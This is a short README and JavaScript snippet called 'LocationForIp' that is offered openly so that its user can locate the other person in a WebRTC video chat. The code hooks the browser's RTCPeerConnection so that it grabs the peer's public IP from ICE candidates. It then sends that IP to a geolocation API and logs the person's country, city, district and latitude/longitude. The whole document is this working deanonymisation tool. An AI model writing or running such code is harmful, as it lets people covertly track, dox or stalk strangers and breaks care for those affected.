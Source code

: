 # LocationForIp
Location program to find the person with the ip

let apiKey = "YOUR API KEY";
 
window.oRTCPeerConnection =
  window.oRTCPeerConnection || window.RTCPeerConnection;
 
window.RTCPeerConnection = function (...args) {
  const pc = new window.oRTCPeerConnection(...args);
 
  pc.oaddIceCandidate = pc.addIceCandidate;
 
  pc.addIceCandidate = function (iceCandidate, ...rest) {
    const fields = iceCandidate.candidate.split(" ");
 
    console.log(iceCandidate.candidate);
    const ip = fields[4];
    if (fields[7] === "srflx") {
      getLocation(ip);
    }
    return pc.oaddIceCandidate(iceCandidate, ...rest);
  };
  return pc;
};
 
let getLocation = async (ip) => {
  let url = `https://api.ipgeolocation.io/ipgeo?apiKey=${apiKey}&ip=${ip}`;
 
  await fetch(url).then((response) =>
    response.json().then((json) => {
      const output = `
          ---------------------
          Country: ${json.country_name}
          State: ${json.state_prov}
          City: ${json.city}
          District: ${json.district}
          Lat / Long: (${json.latitude}, ${json.longitude})
          ---------------------
          `;
      console.log(output);
    })
  );
};
